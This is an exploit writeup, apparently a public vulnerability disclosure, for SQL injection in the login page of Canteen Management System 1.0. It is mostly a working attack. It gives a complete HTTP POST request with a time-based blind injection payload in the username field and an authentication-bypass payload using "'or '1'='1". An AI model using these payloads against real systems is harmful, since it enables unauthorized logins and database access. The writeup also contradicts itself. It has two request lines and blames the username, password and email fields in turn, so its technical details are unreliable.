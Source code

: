 # Canteen Management System - login.php 'username' SQL inject

#### Exploit Title: Canteen Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Software Link:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Version: Canteen Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Canteen Management System does not filter the content correctly at the "login.php /username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.67.10:8091
Content-Length: 97
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g1diqn5ba9l5npktcpl5jc287t
Connection: close

username=1' AND (SELECT 6691 FROM (SELECT(SLEEP(5)))slLY) AND 'lrcD'='lrcD&password=123456&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/login.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/usernamesouce.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/usernameburp.png)

4、We can also construct a payload for universal password login

payload:`email=manager%40manager.com&password=1'or '1'='1&managerLogin=`

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/usernameloginsuccess.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/usernamesqlmap.png)

